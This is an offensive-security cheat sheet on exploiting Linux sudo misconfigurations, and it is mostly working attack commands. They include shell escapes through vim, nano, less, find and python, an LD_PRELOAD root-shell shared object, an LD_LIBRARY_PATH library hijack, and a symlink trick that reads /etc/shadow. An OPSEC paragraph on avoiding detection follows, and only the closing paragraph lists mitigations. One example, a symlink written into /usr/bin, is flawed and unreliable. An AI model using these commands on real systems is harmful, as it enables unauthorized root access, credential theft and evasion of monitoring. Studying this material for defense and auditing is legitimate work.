::Topics:: privilege-escalation, linux, sudo, defense-evasion

# SUDO Misconfiguration Exploitation
SUDO misconfigurations are common privilege escalation vectors on Linux systems. When configured improperly, the sudo utility can allow users to execute commands with elevated privileges, potentially leading to complete system compromise. Below you will find the details and examples without any titles or subtitles.

Checking SUDO Permissions:  
<pre><code class="bash"># List current user's sudo permissions
sudo -l

# Check sudoers file (requires root or sudo)
cat /etc/sudoers

# Check sudoers.d directory (requires root or sudo)
ls -la /etc/sudoers.d/
cat /etc/sudoers.d/*
</code></pre>

Allowed Commands with Wildcards:  
<pre><code class="bash"># Example of dangerous sudoers entry
# username ALL=(ALL) NOPASSWD: /usr/bin/find
# username ALL=(ALL) NOPASSWD: /usr/bin/*

# Check for wildcards in sudo -l output
sudo -l | grep "*"
</code></pre>

Environment Variable Preservation:  
<pre><code class="bash"># Look for entries with the "env_keep" option
sudo -l | grep env_keep

# Check if SETENV or !SETENV is present in the output
sudo -l | grep -E 'SETENV|!SETENV'
</code></pre>

Commands That Can Spawn Shells:  
<pre><code class="bash"># Look for markdown editors, utilities that can spawn shells
sudo -l | grep -E 'vi|vim|nano|less|more|man|python|perl|ruby|bash|sh|csh|ksh|zsh'
</code></pre>

Exploiting Allowed Binaries with Text Editors:  
<pre><code class="bash"># Spawn a shell from vim
sudo vim -c ':!/bin/bash'

# Spawn a shell from nano
sudo nano
^R^X # (Ctrl+R then Ctrl+X)
reset; sh 1>&0 2>&0
</code></pre>

Exploiting Allowed Binaries with Command Utilities:  
<pre><code class="bash"># Spawn a shell from less/more/man
sudo less /etc/hosts
!/bin/bash

# Using find
sudo find / -name example -exec /bin/bash \;

# Using python
sudo python -c 'import os; os.system("/bin/bash")'
</code></pre>

For a comprehensive list of binaries that can be abused for privilege escalation, visit https://gtfobins.github.io/

Exploiting Environment Variables using LD_PRELOAD:  
<pre><code class="bash"># LD_PRELOAD exploitation
cat << EOF > /tmp/shell.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
EOF

# Compile the shared object
gcc -fPIC -shared -o /tmp/shell.so /tmp/shell.c -nostartfiles

# Use LD_PRELOAD with an allowed command
sudo LD_PRELOAD=/tmp/shell.so find
</code></pre>

Exploiting Wildcards (if a user can run /usr/bin/* with sudo):  
<pre><code class="bash"># Create a malicious script in /tmp
echo '#!/bin/bash' > /tmp/shell.sh
echo 'bash -i' >> /tmp/shell.sh
chmod +x /tmp/shell.sh

# Create a symlink in allowed directory
ln -s /tmp/shell.sh /usr/bin/shell

# Execute with sudo
sudo shell
</code></pre>

Real-World Example (Apache User with Wildcard Permission):  
<pre><code class="bash"># Sudoers configuration
# apache ALL=(ALL) NOPASSWD: /bin/cat /var/www/html/*

# Exploitation: Create a symlink to /etc/shadow and read the shadow file
ln -s /etc/shadow /var/www/html/shadow.txt
sudo /bin/cat /var/www/html/shadow.txt
</code></pre>

Real-World Example (User with LD_LIBRARY_PATH):  
<pre><code class="bash"># Sudoers configuration
# user ALL=(ALL) NOPASSWD: /usr/bin/apache2 -f /etc/apache2/apache2.conf
# Sudo configuration preserves LD_LIBRARY_PATH

# Exploitation: Create a shared object to spawn a shell
cat << EOF > /tmp/libcrypt.c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
    system("/bin/bash");
}
EOF

# Compile the shared object
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /tmp/libcrypt.c

# Use LD_LIBRARY_PATH with the allowed command
sudo LD_LIBRARY_PATH=/tmp apache2 -f /etc/apache2/apache2.conf
</code></pre>

OPSEC Considerations: SUDO commands are typically logged in the auth.log file; suspicious commands or patterns may trigger security alerts; creating files or symlinks in world-writeable directories is often monitored; unusual environment variable settings may be flagged by security monitoring.

Mitigation Strategies: Avoid using wildcards in SUDO rules; restrict the commands users can run with SUDO to only those necessary; use absolute paths in SUDO configurations; restrict environment variable preservation in sudoers (env_reset, !env_keep); implement SUDO command logging and alerting; use SUDO lecture messages to remind users about proper usage; regularly audit SUDO configurations for potential security issues; consider using more granular access control mechanisms like SELinux or AppArmor.
